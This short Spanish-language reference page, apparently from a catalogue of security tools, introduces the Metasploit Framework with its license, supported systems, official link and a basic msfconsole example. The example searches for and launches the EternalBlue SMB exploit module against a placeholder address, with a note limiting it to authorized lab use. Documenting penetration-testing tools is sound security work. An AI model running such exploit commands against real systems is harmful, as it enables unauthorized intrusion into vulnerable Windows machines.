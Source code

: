 # Metasploit Framework

**Licencia:** BSD/Apache (dual)

## Descripción
Framework para pruebas de penetración y validación de vulnerabilidades con amplia comunidad y módulos.

## Sistemas operativos compatibles
- Windows
- Linux

## Enlace oficial
- https://www.metasploit.com/

### Ejemplo básico (msfconsole)
> Solo en entornos de laboratorio y con autorización.
```bash
msfconsole
msf6 > search smb_ms17_010
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 > set RHOSTS 192.0.2.10
msf6 > run
```

